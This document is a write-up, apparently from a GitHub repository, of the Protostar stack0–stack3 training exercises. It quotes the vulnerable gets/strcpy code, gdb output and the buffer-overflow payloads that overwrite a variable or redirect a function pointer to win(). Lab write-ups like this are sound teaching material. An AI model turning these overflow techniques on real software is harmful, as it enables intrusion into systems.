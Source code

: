 # protostar_writeups

stack0 :
   
   Source code fir this challenge is 
   ```
    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>

    int main(int argc, char **argv)
    {
      volatile int modified;
      char buffer[64];

      modified = 0;
      gets(buffer);

      if(modified != 0) {
          printf("you have changed the 'modified' variable\n");
      } else {
          printf("Try again?\n");
      }
    }
   ```
   
   We need to change the integer called modified to something that is not zero.
   
   run stack0 in gdb and disassemble main
   
   ```
   (gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0               
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]               ; modified is loaded onto eax
0x08048415 <main+33>:   test   eax,eax                                ; test if eax is 0
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
   ```
   
   Variable can be changed if we give any input with length > 64 and "modified" will be overwritten by next 4 bytes. Construct a payload with 64*'A' and 4 'B'(this is just to ensure that we have control over the variable). break at 0x08048417 to check if we have control over modified variable. Using the payload mentioned above(64*'A'+4*'B') eax should have a value of 0x42424242(nothing but BBBB)
   
   ```
   End of assembler dump.                                                                  
(gdb) b *0x08048417                                                                     
Breakpoint 1 at 0x8048417: file stack0/stack0.c, line 13.                               
(gdb) r < /tmp/s0.txt                                                                   
Starting program: /opt/protostar/bin/stack0 < /tmp/s0.txt                               
                                                                                        
Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13        
13      stack0/stack0.c: No such file or directory.                                     
        in stack0/stack0.c                                                              
(gdb) i r                                                                               
eax            0x42424242       1111638594                                              
ecx            0xbffff76c       -1073744020                                             
edx            0xb7fd9334       -1208118476                                             
ebx            0xb7fd7ff4       -1208123404                                             
esp            0xbffff750       0xbffff750                                              
ebp            0xbffff7b8       0xbffff7b8                                              
esi            0x0      0                                                               
edi            0x0      0                                                               
eip            0x8048417        0x8048417 <main+35>                                     
eflags         0x200206 [ PF IF ID ]                                                    
cs             0x73     115                                                             
ss             0x7b     123                                                             
ds             0x7b     123                                                             
es             0x7b     123                                                             
fs             0x0      0                                                               
gs             0x33     51                                                              
(gdb)                                                                                   
   ```
   eax has changed to 0x42424242 thus overwrote "modified" 
   ```
   user@protostar:/opt/protostar/bin$ ./stack0 < /tmp/s0.txt
   you have changed the 'modified' variable
   ```
   
Stack1 :

  Same as stack0. Only difference is it requires an argument instead of input.Here strcpy copies argv[1] to buffer. strcpy doesn't check for length of buffer so it will continue writing to the buffer until it finds a null byte. So it can overwrite modified.  
  ```
  #include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

  ```
   Since we already have control over "modified"("BBBB" in stack0) we just need to replace "BBBB" with "dcba ==>(0x64636261)". Since the machine islittle endian the order should be reversed.
   
   
   ```
   user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' *64 +'dcba'")
   you have correctly got the variable to the right value
   ```
   
   Stack2 :
   
   same as stack1 but strcpy copies data to buffer from an environment variable called "GREENIE". You can set environment variables with the command ``` export GREENIE= <any value>```. 
   
   Here modified vaiable is being compared to 0x0d0a0d0a. Inorder to modify "modified", GREENIE should be <64bytes>+"\x0a\x0d\x0a\x0d"(little endian for  0x0d0a0d0a )
   
   ```
   user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable
user@protostar:/opt/protostar/bin$ export GREENIE="AAAA"
user@protostar:/opt/protostar/bin$ set | grep "GREENIE" 
GREENIE=AAAA
_=GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
   ```
Stack3 :

In this challenge we have to rewrite "modified" with the memory address of win(). Memory address of win can be found with gdb or objdump.
```
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep "win"
08048424 <win>:
user@protostar:/opt/protostar/bin$ gdb ./stack3
(gdb) disassemble win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   ebp
0x08048425 <win+1>:     mov    ebp,esp
0x08048427 <win+3>:     sub    esp,0x18
0x0804842a <win+6>:     mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
```

Here the problem is with gets call which will continue writing to or beyond buffer and can overwrite fp. By changing the value of fp to address of win() which is at  0x08048424. So user_input for gets call should be ```<any 64 bytes>+"\x24\x84\x04\x08"```

```
user@protostar:/opt/protostar/bin$ python -c "print 'A'*64+'\x24\x84\x04\x08'" > /tmp/s3.txt
user@protostar:/opt/protostar/bin$ ./stack3 </tmp/s3.txt
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
